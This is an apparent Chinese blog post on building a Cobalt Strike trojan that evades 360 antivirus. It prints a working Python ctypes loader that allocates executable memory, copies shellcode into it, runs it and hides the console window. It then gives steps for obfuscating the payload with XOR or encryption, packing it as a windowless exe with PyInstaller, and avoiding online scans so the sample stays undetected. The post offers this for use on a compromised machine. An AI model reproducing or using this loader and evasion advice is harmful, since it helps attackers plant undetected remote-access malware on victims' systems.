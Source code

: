 # 用python做一个能过360的免杀CS马


<!--more-->
![IP定位](https://tool.lu/netcard/)
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>
<script type="text/javascript">$(document).ready(function() {$("#begin_speak").click(function () {
                let content = $("#text").text();
                let msg = new SpeechSynthesisUtterance(content);
                window.speechSynthesis.speak(msg);$("#pause_speak").show();$("#cancel_speak").show();});$("#cancel_speak").click(function () {
                window.speechSynthesis.cancel();$("#pause_speak").hide();$("#resume_speak").hide();$(this).hide();
});$("#pause_speak").click(function () {
                window.speechSynthesis.pause();$("#resume_speak").show();
            });$("#resume_speak").click(function () {
                window.speechSynthesis.resume();$(this).hide();
            });
        });
</script>
   <body>
      <div>
         <input type="button" id="begin_speak"  value="朗读本文">
         <input type="button" id="pause_speak"  style="display:none" value="暂停朗读">
         <input type="button" id="cancel_speak" style="display:none" value="停止朗读">
         <input type="button" id="resume_speak" style="display:none" value="继续朗读">
      </div>
      <div id="text">
# [用python做一个能过360的免杀CS马](https://ybrc.github.io/zh-cn/11)

> 拿到shell了, 机器上有个360?? 
> 做个免杀吧!

> 更新: python真的不行...还是老老实实C++写吧 (

本文将通过python的`ctypes`库加载Cobalt Strike马实现免杀.

其实这已经不是一个新方法了; 但是它依然十分有效, 即使不做任何混淆也能过360.

### 写个python文件加载CS shellcode

shellcode写到内存中, 用`ctypes.windll`加载即可.

先用CS生成shellcode, Output类型选python

[![360-gen-payload.webp](https://leohearts.com/usr/uploads/2020/10/184615255.webp)](https://leohearts.com/usr/uploads/2020/10/184615255.webp)

然后放进这份[网传的python代码中](https://www.secshi.com/6590.html), 替换掉buf.

```python
from ctypes import *
import ctypes
buf =  ""
PROT_READ = 1
PROT_WRITE = 2
PROT_EXEC = 4
def executable_code(buffer):
    buf = c_char_p(buffer)
    size = len(buffer)
    addr = libc.valloc(size)
    addr = c_void_p(addr)
    if 0 == addr: 
        raise Exception("Failed to allocate memory")
    memmove(addr, buf, size)
    if 0 != libc.mprotect(addr, len(buffer), PROT_READ | PROT_WRITE | PROT_EXEC):
        raise Exception("Failed to set protection on buffer")
    return addr
VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
VirtualProtect = ctypes.windll.kernel32.VirtualProtect
shellcode = bytearray(buf)
whnd = ctypes.windll.kernel32.GetConsoleWindow()   
if whnd != 0:
       if 1:
              ctypes.windll.user32.ShowWindow(whnd, 0)   
              ctypes.windll.kernel32.CloseHandle(whnd)
memorywithshell = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
old = ctypes.c_long(1)
VirtualProtect(memorywithshell, ctypes.c_int(len(shellcode)),0x40,ctypes.byref(old))
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(memorywithshell),
                                     buf,
                                     ctypes.c_int(len(shellcode)))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()
```

Python

> 记得全程用python2. python3.9因未知原因失败了.

它运行一下就可以CS上线了.

### 混淆/编码

不编码也能过360, 不过还是编码一下比较保险一些.

你可以尝试:

- 编码shellcode
- 编码整个程序然后exec
- etc...

可以对每个byte异或一个字符, 或者上加密.

### 用PyInstaller打包成exe

很简单,

```shell
pyinstaller.exe --onefile -w ./payload.py
```

Shell

即可.

**注意: 如果你编码了程序, 记得在最外层import所有需要的库, 否则执行时会因为找不到库而出错.**

**不要在联网状态下扫描你的程序, 不然第二天它就挂了(**

是这样...
第二天挂了之后, 再尝试换个花样上去几分钟就被360杀了, 可能360记录了我的ip之类的.
考虑上cloudflare转发?

VT结果: https://www.virustotal.com/gui/file/3a2c7ca6533139de0d727649e554e507ec5af4066d3753bfa71f93be613990e6/detection
</div>
<img src="https://tool.lu/netcard/">



{{<music url="https://cdn.jsdelivr.net/gh/ybrc/ybrc.github.io@source/Music/66.mp3" name="" artist="Mr·Yang" cover="https://cdn.jsdelivr.net/gh/ybrc/ybrc.github.io@img/avatar.png" fixed="true" volume="100" loop="all" autoplay="true" preload="auto" >}}
<script type='text/javascript' src="//libs.cdnjs.net/jquery.qrcode/1.0/jquery.qrcode.min.js"></script>
<div id="qrcode"></div> 
<a id="download" download="qrcode.jpg"></a>
<div id="btn" style="margin: 0 auto; text-align: center;">
<button id="save"><b>手机扫一扫</b></button>
</div>
<script type="text/javascript">
    jQuery('#qrcode').qrcode({ width: 96, height: 96, colorDark : "#000000",
	colorLight : "#ffffff", text: window.location.href });$("#save").click(function () {
        var canvas = $('#qrcode').find("canvas").get(0);
        var url = canvas.toDataURL('image/jpeg');$("#download").attr('href', url).get(0).click();
        return false;
    });
</script>
